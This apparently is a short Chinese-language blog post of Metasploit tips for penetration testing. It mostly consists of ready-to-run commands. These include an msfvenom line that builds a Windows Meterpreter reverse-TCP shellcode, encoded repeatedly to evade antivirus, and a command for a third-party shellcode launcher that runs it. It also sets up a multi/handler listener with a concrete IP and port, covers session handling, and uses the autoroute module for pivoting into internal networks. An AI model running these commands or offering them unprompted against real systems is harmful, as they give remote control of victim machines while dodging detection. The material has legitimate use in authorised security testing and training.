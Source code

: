 ```yaml
---
layout: post
title: metasploit 使用tips
categories: 渗透测试
tag: metasploit
---
```


## payload 生成 、 分离免杀

- 生成shellcode

    `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -ex86/shikata_ga_nai -i 5 -f raw > test.c`

- shellcode 加载器

    https://github.com/clinicallyinane/shellcode_launcher/
    `shellcode_launcher.exe -i test.c`

## meterpreter 

- handle
    ```
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set lport 4444
    set lhost 192.168.231.23
    run
    ```

-  sessions 查看当前session
    - background 切换sessions 至后台
    - sessions -i 1  将session 1 调至前台

- run aotorouter -p  自动添加路由
    - post/multi/manage/autoroute自动添加路由

